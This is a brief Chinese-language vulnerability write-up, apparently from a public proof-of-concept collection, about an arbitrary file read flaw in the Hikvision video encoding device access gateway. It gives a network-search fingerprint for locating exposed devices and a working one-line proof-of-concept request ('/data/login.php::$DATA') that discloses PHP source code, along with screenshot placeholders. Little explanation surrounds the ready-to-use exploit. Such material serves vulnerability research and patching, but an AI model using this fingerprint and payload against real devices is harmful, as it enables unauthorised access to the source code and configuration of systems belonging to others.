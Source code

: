 # Hikvision 视频编码设备接入网关 $DATA 任意文件读取

## 漏洞描述

Hikvision 视频编码设备接入网关存在配置错误特性，特殊后缀请求php文件可读取源码

## 漏洞影响

```
Hikvision 视频编码设备接入网关
```

## 网络测绘

```
title="视频编码设备接入网关"
```

## 漏洞复现

登陆页面

![image-20220519174129368](images/202205191741462.png)

POC

```
/data/login.php::$DATA
```

![image-20220519174235421](images/202205191742487.png)